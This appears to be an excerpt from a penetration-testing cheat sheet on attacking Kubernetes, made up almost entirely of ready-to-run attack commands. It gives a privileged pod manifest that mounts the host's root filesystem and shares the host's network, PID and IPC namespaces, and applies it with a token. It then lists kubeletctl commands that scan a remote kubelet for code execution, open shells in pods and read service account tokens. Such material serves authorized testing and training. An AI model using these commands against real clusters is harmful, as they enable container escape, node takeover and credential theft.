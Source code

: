 ```c
$ export token="<TOKEN>"
```

```c
cat << 'EOF' |
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
EOF
(export NAMESPACE=default && ./kubectl apply -n $NAMESPACE -f - --token=$TOKEN)
```

## kubeletctl

> https://github.com/cyberark/kubeletctl

```c
$ kubeletctl pods -s <RHOST>
$ kubeletctl runningpods -s <RHOST>
$ kubeletctl runningpods -s <RHOST> | jq -c '.items[].metadata | [.name, .namespace]'
$ kubeletctl -s <RHOST> scan rce
$ kubeletctl -s <RHOST> exec "id" -p <POD> -c <CONTAINER>
$ kubeletctl -s <RHOST> exec "/bin/bash" -p <POD> -c <CONTAINER>
$ kubeletctl -s <RHOST> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <POD> -c <CONTAINER>
```

## Kubernetes
